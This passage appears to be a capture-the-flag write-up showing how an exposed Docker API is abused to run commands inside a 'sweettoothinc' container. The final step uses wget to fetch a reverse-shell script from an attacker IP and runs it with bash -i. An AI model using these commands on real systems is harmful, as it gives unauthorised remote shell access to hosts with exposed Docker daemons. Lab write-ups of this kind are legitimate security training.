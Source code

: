 - findings

  ```cat
  Container: 
  Image "sweettoothinc:latest"
  ```

- connect Docker Container:

  ```bash
  # list container 
  docker -H tcp://localhost:8080 container ls   
                            
  CONTAINER ID   IMAGE                  COMMAND                  CREATED          STATUS             PORTS                                          NAMES
  7d5a0b6ac490   sweettoothinc:latest   "/bin/bash -c 'chmod…"   50 minutes ago   Up About an hour   0.0.0.0:8086->8086/tcp, 0.0.0.0:2222->22/tcp   sweettoothinc
  ```

- list docker files

  ```bash
  docker -H tcp://localhost:8080 container exec sweettoothinc ls
  bin
  boot
  dev
  entrypoint.sh
  etc
  home
  initializeandquery.sh
  lib
  lib64
  media
  mnt
  opt
  proc
  root
  run
  sbin
  srv
  sys
  tmp
  usr
  var
  ```

- get a rev shell

  ``` bash
  # upload a rev shell
  # get it from here: https://shell.anir0y.in
  docker -H tcp://localhost:8080 container exec sweettoothinc wget http://10.17.4.40/shell.sh

  # exec the shell
  docker -H tcp://localhost:8080 container exec sweettoothinc bash -i shell.sh
  ```
